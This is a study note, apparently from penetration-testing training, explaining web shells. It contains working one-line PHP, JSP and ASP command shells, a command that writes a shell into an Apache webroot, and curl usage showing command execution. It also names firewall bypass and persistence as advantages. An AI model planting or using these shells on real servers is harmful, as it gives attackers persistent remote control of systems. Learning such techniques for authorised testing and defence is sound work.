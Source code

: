 ## Definition

A [[Web Shell]] is a type of [[Shell]] typically implemented as a web script (e.g., [[PHP]], [[ASPX]], [[JSP]]). It accepts commands through [[HTTP]] request parameters (like `GET` or `POST`), executes them on the server, and returns the output within the web page response.

## Writing a Web Shell

A web shell script is often a short one-liner. Here are examples for common web languages:

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

---

## Uploading a Web Shell

To use a web shell, the script file must be placed in the remote host's web directory (webroot) to allow its execution via the web server. This might be achievable through:
- A file upload vulnerability.
- Direct writing to the webroot if [[Remote Code Execution (RCE)]] is already achieved.

First, identify the webroot directory. Common defaults include:

| Web Server          | Default Webroot      |
| ------------------- | -------------------- |
| [[Apache]]        | `/var/www/html/`     |
| [[Nginx]]         | `/usr/local/nginx/html/` |
| [[IIS]]           | `c:\\inetpub\\wwwroot\\` |
| [[XAMPP]]         | `C:\\xampp\\htdocs\\`    |

Once the webroot is identified, use available command execution (e.g., `echo`) to write the shell script. For example, on a Linux host running Apache:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

---

## Accessing a Web Shell

After uploading, access the web shell using a browser or a tool like [[cURL]]. Append the command as a parameter (e.g., `?cmd=id`):

Browser Example URL: `http://SERVER_IP:PORT/shell.php?cmd=id`

![UID, GID, and groups set to www-data.](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

Using [[cURL]]:

```shell-session
Iskandeur@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Advantages

- **Firewall Bypass:** Often bypasses egress firewall rules as commands run over standard web ports (e.g., 80, 443).
- **[[Persistence]]:** The shell file remains after system reboots, allowing command execution without re-exploiting the initial vulnerability.

### Disadvantages

- **Interactivity:** Less interactive than [[Reverse Shell|reverse]] and [[Bind Shell|bind shells]], requiring separate requests for each command. Automation scripts (e.g., in Python) can create semi-interactive experiences.
